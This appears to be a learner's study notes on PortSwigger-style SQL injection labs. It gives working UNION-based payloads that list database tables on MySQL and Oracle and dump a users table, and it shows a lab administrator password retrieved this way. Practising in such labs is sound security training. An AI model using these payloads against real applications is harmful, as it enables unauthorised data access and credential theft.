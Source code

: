 # UNION attacks

MySQL end of query = `--` and `#`, **try both**.

**PS Lab:** `SQL injection attack, querying the database type and version on MySQL and Microsoft` rejected my accurate queries because I ended my query with `--` instead of `#`. Is this accurate of a real-world setup? I'm not sure.


### Lab: SQL injection attack, listing the database contents on non-Oracle databases
This is a non-Oracle database, so we need to make user of information_schema.tables
>Pets' union select table_name,NULL from information_schema.tables--

This returns all of the tables in the database.

Look for a non-standard table `users_xgouhg`

>Pets' union select * from users_xgouhg--

```
administrator
8bd235i2g39fg3h6865g
```

Chaching 💸

### SQL injection attack, listing the database contents on Oracle
Same thing, just with Oracle. Ezpz. I'm a master at this.

>Pets' union select table_name, null from all_tables--
